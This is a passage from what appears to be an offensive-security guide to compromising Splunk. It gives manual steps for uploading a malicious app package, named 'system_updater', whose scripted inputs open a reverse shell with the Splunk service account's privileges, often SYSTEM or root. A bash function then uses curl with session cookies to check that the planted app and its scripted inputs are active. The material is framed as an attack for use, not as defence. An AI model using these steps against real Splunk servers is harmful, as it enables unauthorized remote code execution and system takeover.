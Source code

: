 #### Manual Web Interface Steps
```bash
# Manual application deployment process:
echo "[+] Manual Splunk application deployment steps:"
echo "1. Navigate to: http://target.com:8000/en-US/manager/search/apps/local"
echo "2. Click 'Install app from file'"
echo "3. Browse and select malicious application package (.tar.gz or .spl)"
echo "4. Check 'Upgrade app' if prompted"
echo "5. Click 'Upload'"
echo "6. Application will be automatically enabled and scripts executed"
echo "7. Reverse shell connection should be established within interval time"

# Expected Splunk response after upload:
echo "[+] Expected behavior after upload:"
echo "   - Application appears in Apps list as 'Enabled'"
echo "   - Scripted inputs begin execution automatically"
echo "   - Reverse shell connects to listener within 10-20 seconds"
echo "   - Shell executes with Splunk service account privileges (often SYSTEM/root)"
```

### Post-Upload Verification
```bash
# Verify application deployment and execution
verify_deployment() {
    local splunk_url=$1
    local app_name=$2
    
    echo "[+] Verifying application deployment: $app_name"
    
    # Check if application is listed and enabled
    curl -s -b cookies.txt \
      "$splunk_url/en-US/manager/search/apps/local" | \
      grep -i "$app_name" && \
      echo "[+] Application visible in Apps list"
    
    # Check application status
    curl -s -b cookies.txt \
      "$splunk_url/services/apps/local/$app_name" | \
      grep -oP '<s:key name="disabled">\K[^<]+' | \
      grep -q "0" && \
      echo "[+] Application is enabled"
    
    # Check input status
    curl -s -b cookies.txt \
      "$splunk_url/services/data/inputs/script" | \
      grep -i "$app_name" && \
      echo "[+] Scripted inputs are configured"
    
    echo "[+] Deployment verification complete"
}

# verify_deployment "http://target.com:8000" "system_updater"
```

---